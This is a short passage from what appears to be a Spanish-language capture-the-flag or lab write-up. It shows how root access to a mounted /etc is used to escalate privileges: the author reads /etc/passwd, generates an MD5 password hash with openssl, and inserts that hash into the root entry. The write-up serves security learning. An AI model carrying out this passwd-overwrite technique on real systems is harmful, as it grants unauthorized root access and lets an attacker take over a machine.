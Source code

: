 ![Montaje de /etc](images/post_5.png)

Dado que la aplicación cuenta con permisos de `root` se podría, eventualmente, descargar y modificar el archivo `passwd` añadiendo un hash en el campo del usuario `root` y nuevamente subiendo el archivo modificado.

```bash
└─$ catn passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
[...]

└─$ openssl passwd -1 -salt srrequiem srrequiem
$1$srrequie$ynKr1xfKTHO0yDUd7aWxq/

└─$ nano passwd

└─$ catn passwd
root:$1$srrequie$ynKr1xfKTHO0yDUd7aWxq/:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
[...]
```
